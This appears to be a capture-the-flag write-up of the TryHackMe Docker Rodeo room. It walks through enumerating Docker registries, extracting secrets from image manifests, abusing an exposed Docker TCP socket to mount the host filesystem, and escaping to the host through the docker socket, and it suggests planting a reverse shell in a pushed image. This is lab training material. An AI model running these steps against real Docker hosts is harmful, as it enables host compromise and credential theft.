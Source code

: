 # Docker Rodeo Writeup
Find this guided CTF on TryHackMe. https://tryhackme.com/room/dockerrodeo

## Task 1

This task is just basic set-up of the room. The instructions are clear and no answers are needed.

## Task 2

This task is an explanation of docker and its relationship with hypervisors and host OSes. The answer to the question is given in the task description.

## Task 3

Task 3 is empty.

## Task 4

Task 4 also contains no questions.

## Task 5

In this task we learn useful endpoints of the docker registry API.

Detect docker registries via nmap (WARN: SLOW):
```bash
nmap -sV -p- {target-ip}
```

*HTTP examples here are given in Httpie format*

List images:
```bash
http GET {target-ip}:{registry-port}/v2/_catalog
```

Images are listed as `repository/name`.

List tags of an image:
```bash
http GET {target-ip}:{registry-port}/v2/{repository}/{name}/tags/list
```

Retrieve the manifest file of a specific image and tag:
```bash
http GET {target-ip}:{registry-port}/v2/{repository}/{name}/manifests/{tag}
```

Search these manifest files for secrets (often in environment variables or in run commands).

For this lab, look for the database user name and password of the one image running on the second docker registry (not port 5000). See the `nmap` results to find the port of the second registry.

## Task 6

[Dive](https://github.com/wagoodman/dive) is a tool to exploring (and exploiting) docker images.

1. install `dive`
1. pull the image we want to inspect with `docker pull docker-rodeo.thm:5000/dive/example`
1. find the image ID of the images we just pulled with `docker images` under the Image ID column
1. run `dive` with `dive {image-id}`

To complete this task, use `dive` to look for the answers to the task questions. Dive is easy to use, look at the bottom of the pane for useful keyboard commands.

## Task 7

Task 7 explains the possibility of pushing a newer image to a registry that doesn't use authentication. That will cause future pulls of the image to include any changes you made. Consider putting a reverse shell in an image 🤔

## Task 8

Exploring the Docker TCP socket. The target box has Docker listening on port 2375 (discovered during your `nmap` scan in task 5).

```bash
http GET docker-rodeo.thm:2375/version
```

Now that we have information on the docker version running on the host, we can connect our `docker` CLI to the target host. The `-H` flag allows you to specify the host to run the command against.

Experiment:
```bash
docker -H docker-rodeo.thm:2375 ps
docker -H docker-rodeo.thm:2375 network ls
docker -H docker-rodeo.thm:2375 images
```

Use `exec` and `run` to execute commands on the running containers.

You could, for example, remotely run and attach to a container with the host OS file system mounted in it:
```bash
docker -H docker-rodeo.thm:2375 run -v /:/host -it --rm --name get-host-fs {image id of the ubuntu container already on the target}
```

This task does not require any specific answer.

## Task 9

This task assumes you have access to the target docker host. Perhaps through a website vulnerability, or perhaps by mounting the target host's OS in a container and adding an SSH key (or exfiltrating an existing private key). But to simplify, they give you the ssh port, username and password of a user on the target host OS.

```bash
ssh danny@docker-rodeo.thm -p 2233
{enter password `danny` when prompted}
```

Once on the target host, we confirm the user `danny` has access to the docker socket. It does.

Follow the guide as it helps you create a new container with the host OS mounted. Due to the `chroot` command, the host OS appears as the root file system in the container.

## Task 10
